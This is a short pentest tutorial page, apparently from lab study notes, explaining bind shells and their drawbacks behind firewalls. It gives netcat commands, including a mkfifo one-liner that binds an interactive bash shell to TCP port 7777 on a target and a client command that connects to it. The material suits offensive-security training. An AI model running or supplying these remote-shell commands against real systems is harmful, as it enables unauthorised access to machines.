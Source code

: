 ```yaml
---
layout:
  title:
    visible: false
  description:
    visible: false
  tableOfContents:
    visible: false
  outline:
    visible: false
  pagination:
    visible: false
---
```


# Bind Shells

Target/victim is listening and waits for ATTACKER to connect

<div data-full-width="true">

<figure><img src=".gitbook/assets/image.png" alt=""><figcaption></figcaption></figure>

</div>

DISADVANTAGES

* There would have to be a listener already started on the target.
* If there is no listener started, we would need to find a way to make this happen.
* Admins typically configure strict incoming firewall rules and NAT (with PAT implementation) on the edge of the network (public-facing), so we would need to be on the internal network already.
* Operating system firewalls (on Windows & Linux) will likely block most incoming connections that aren't associated with trusted network-based applications.

No. 1: Server - Target starting Netcat listener

```
nc -lvnp 7777
```

No. 2: Client - Attack box connecting to target

```
nc -nv 10.129.41.200 7777
```

### Establishing a Basic Bind Shell with Netcat

No. 1: Server - Binding a Bash shell to the TCP session

{% code fullWidth="true" %}
```
rm -f /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/bash -i 2>&1 | nc -l 10.129.41.200 7777 > /tmp/f
```
{% endcode %}

No. 2: Client - Connecting to bind shell on target

```
nc -nv 10.129.41.200 7777
```
